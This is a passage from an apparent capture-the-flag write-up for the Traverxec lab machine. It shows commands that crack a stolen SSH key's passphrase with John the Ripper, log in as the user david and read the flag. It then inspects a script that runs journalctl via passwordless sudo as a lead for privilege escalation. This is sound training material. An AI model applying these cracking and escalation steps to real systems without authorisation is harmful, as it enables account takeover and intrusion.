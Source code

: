 Looking at our newly acquired ssh key we can see it is password protected, but
we can use john the ripper again to find the password and decrypt the key.
<pre>
debian $ ssh2john id_david > id_david_hash
debian $ john --wordlist=rockyou.txt id_david_hash
...
debian $ ssh-keygen -p -f id_david
Enter old passphrase: hunter
Enter new passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved with the new passphrase.
</pre>

After this we just `ssh` in as `david` and get the flag.
<pre>
debian $ ssh -i id_david david@10.10.10.165
david@traverxec $ cat user.txt
flag_will_be_here
</pre>

## Step 4: Privilege escalation
Using the ssh connection we established above we look around the machine to see
what `david` left on it.

<pre>
david@traverxec $ find /home/david
/home/david
/home/david/.local
/home/david/.local/share
/home/david/.local/share/nano
/home/david/.profile
/home/david/.ssh
/home/david/.ssh/authorized_keys
/home/david/.ssh/id_rsa
/home/david/.ssh/id_rsa.pub
/home/david/public_www
/home/david/public_www/index.html
/home/david/public_www/protected-file-area
/home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
/home/david/public_www/protected-file-area/.htaccess
/home/david/bin
<span style="color:red">/home/david/bin/server-stats.sh</span>
/home/david/bin/server-stats.head
/home/david/.bash_history
/home/david/.bash_logout
/home/david/.bashrc
/home/david/user.txt
</pre>

Next I look at the shell script highlited above. Running the script prints some
of the webserver log, but most importantly does **not** require a password to do
it. Now we look at the code and see why.
<pre>
david@traverxec $ cat /home/david/bin/server-stats.sh
\#!/bin/bash<br>
cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
</pre>
